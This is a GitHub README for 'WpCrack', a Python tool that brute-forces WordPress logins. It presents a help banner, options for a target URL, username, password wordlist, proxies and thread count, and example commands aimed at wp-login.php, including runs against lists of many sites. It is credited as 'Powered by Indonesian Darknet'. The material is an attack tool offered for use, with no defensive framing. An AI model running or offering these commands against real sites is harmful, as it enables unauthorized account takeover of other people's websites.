 <img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRbgsg-LEnF3j_K6yrP0HyZxZe_hR4rpks8LQ&usqp=CAU" align="right" width="90" height="80">

# WpCrack Tool

![Python](https://img.shields.io/badge/Python-3.9.2-blue)
![License](https://img.shields.io/badge/License-MIT-brightgreen)

![Terkey](https://github-readme-stats.vercel.app/api/pin?username=RandsX&repo=xmlrpc-brute-force-wordpress&title_color=000&icon_color=000&text_color=000000&bg_color=ffffff)

> WordPress Brute Force Super Fast Login

```
      .---.        .-----------
     /     \  __  /    ------
    / /     \(  )/    -----
   //////   ' \/ `   ---
  //// / // : ★★ : ---
 // /   /  /`    '--
//          //..\   WpCrack Brute Froce Tool™
       ====UU====UU==========================
           '//||\`
             ''``
usage: python WpCrack.py [options]                              
optional arguments:
  -h, --help        show this help message and exit
  -V, --version     show program's version number and exit
  -d, --debug       debugging mode

target arguments:
  -t , --target     url of the target
  -u , --username   username of the target (default: admin)
  -p , --password   password of the target (change -p to --p to use a wordlist)

  --timeout         timed out for requests
  --thread          numbers of threading multiproccesor (default: 5)
  --proxy           using a HTTP proxy (ex: http://site.com:8000)

Copyright © 2021 Andrew - Powered by Indonesian Darknet
```

## How To Use

Using a single password
```bash
python WpCrack.py -t http://site.com/wp-login.php -u admin -p password
```

Using a multiple password / wordlist
```bash
python WpCrack.py -t http://site.com/wp-login.php -u admin --p wordlist.txt
```

Using a multiple url / Password 
```bash
python WpCrack.py -t url.txt -u wordlist.txt --p wordlist.txt
```

## About
WpCrack is a tool used to force login into the WordPress CMS web application and is built in the Python programming language

## Features
- Very fast login
- Use of HTTP proxies
- Multithreading or Multiprocessor
